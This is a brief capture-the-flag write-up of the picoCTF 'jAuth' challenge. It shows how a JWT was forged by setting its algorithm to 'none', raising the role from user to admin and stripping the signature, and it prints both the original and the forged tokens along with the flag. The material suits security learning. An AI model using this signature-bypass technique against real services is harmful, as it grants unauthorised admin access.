 # CTF based on JWT auth bypass

## 1. picoCTF: jAuth

The challenge first hints for using insecure software components. I searched for vulnrability in jAuth ended up not getting anything. At the end, I solved it as follows.
caught the jwt i got from the test account. 

JWT was taken to https://token.dev and the algorithm type was changed to none and the role was changed to admin in the payload part. This way the verifier end will not check against any algorithm. The signaure part was removed by lefting the end dot(.) intact. 
Made request to /private endpoint with the token=<below_token> and got the flag
```
# jwt given by server
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzIwMzE2MTMzNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjAuMC42MDk5LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoidXNlciIsImlhdCI6MTcyMDMxNjEzNH0.v6X6u_cx56szaBiqImfy2mBoxoNtjbdzz19wNLbPEcY
# changed jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIwMzE2MTMzNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjAuMC42MDk5LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MjAzMTYxMzR9.
```
**Flag:** picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}

**To Read*
- [Owasp on jwt security](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)
